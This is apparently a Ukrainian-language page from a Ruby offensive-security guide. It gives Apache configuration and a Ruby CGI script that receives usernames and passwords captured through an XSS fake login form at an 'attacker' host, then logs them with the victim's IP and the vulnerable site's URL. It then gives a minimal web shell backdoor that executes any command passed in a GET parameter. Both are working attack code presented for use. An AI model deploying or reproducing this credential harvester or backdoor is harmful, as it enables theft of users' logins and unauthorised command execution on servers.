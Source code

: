 При використанні XSS чи HTML ін'єкції, вам може знадобитися можливість відправки відфільтрованих даних від заламаного користувач на ваш сервер. Ось приклад простого CGI скрипта, що показує фальшиву форму входу яка просить користувача зайти в систему використовуючи логін та пароль, й потім зберігає введені данні в файл `hacked_login.txt` та міняє права доступу на нього, аби бти впевненими, що більш ніхто не має досутпу до нього.

Додайте наступний код до `/etc/apache2/sites-enabled/[SITE]` та перезавантажте сервіс.
```
<Directory /var/www/[CGI FOLDER]>
        AddHandler cgi-script .rb
        Options +ExecCGI
</Directory>
```
Далі, покладіть скрипт в папку /var/www/[CGI FOLDER]. І тепер ви можете користатися ним:

```ruby
#!/usr/bin/ruby
# CGI script gets user/pass | http://attacker/info.rb?user=USER&pass=PASS
require 'cgi'
require 'uri'

cgi  = CGI.new
cgi.header  # content type 'text/html'
user = URI.encode cgi['user']
pass = URI.encode cgi['pass']
time = Time.now.strftime("%D %T")

file = 'hacked_login.txt'
File.open(file, "a") do |f|
  f.puts time   # Time of receiving the get request
  f.puts "#{URI.decode user}:#{URI.decode pass}"    # The data
  f.puts cgi.remote_addr    # Remote user IP
  f.puts cgi.referer    # The vulnerable site URL
  f.puts "---------------------------"
end
File.chmod(0200, file)  # To prevent public access to the log file

puts ""
```

### Web Shell[^1] - Запускач команд за допомогою GET запитів

Якщо у вас є сервер, що підтримує ruby CGI, ви можете використовувати наступний бекдор:

```ruby
#!/usr/bin/env ruby
require 'cgi'
cgi = CGI.new
puts cgi.header
system(cgi['cmd'])
```
Тепер ви можете використовувати ваш переглядач тенет або WebShellConsole[^1] для запуску потрібних вам команд.


[^1]: [WebShellConsole](https://github.com/KINGSABRI/WebShellConsole) is simple interactive console, interacts with simple web shells using HTTP GET rather than using browser. wsc will work with any shell use GET method. It takes care of all URL encoding too.
[3]: http://docs.seattlerb.org/mechanize/GUIDE_rdoc.html
[4]: http://docs.seattlerb.org/mechanize/EXAMPLES_rdoc.html
[5]: http://railscasts.com/episodes/191-mechanize
[6]: https://github.com/httprb/http
[7]: https://github.com/httprb/http/wiki
